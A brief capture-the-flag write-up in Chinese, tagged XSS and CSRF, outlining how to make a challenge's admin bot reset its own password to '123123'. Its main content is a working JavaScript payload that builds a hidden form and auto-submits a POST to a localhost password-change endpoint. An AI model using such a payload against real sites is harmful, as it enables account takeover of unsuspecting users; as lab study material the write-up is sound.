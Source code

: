 tags:: [[CTF/XSS]], [[CTF/CSRF]]

- # 思路
- 让爬虫修改自己的密码为123123即可登陆
- 爬虫没有外网连接，需要让其访问^^127.0.0.1^^
- 本次使用的是POST，需要新建一个虚拟表单
- 用这个：
	- {{embed ((63021a8b-2051-47f1-8372-f413519cd49b))}}
-
- # Payload
- ```html
  <script>
  function httpPost(URL, PARAMS) {
    var temp = document.createElement("form");
    temp.action = URL;
    temp.method = "post";
    temp.style.display = "none";
  
    for (var x in PARAMS) {
      var opt = document.createElement("textarea");
      opt.name = x;
      opt.value = PARAMS[x];
      temp.appendChild(opt);
    }
    document.body.appendChild(temp);
    temp.submit();
  
    return temp;
  }
  httpPost("http://127.0.0.1/api/change.php", {
    "p": "123123"
  });
  </script>
  ```
-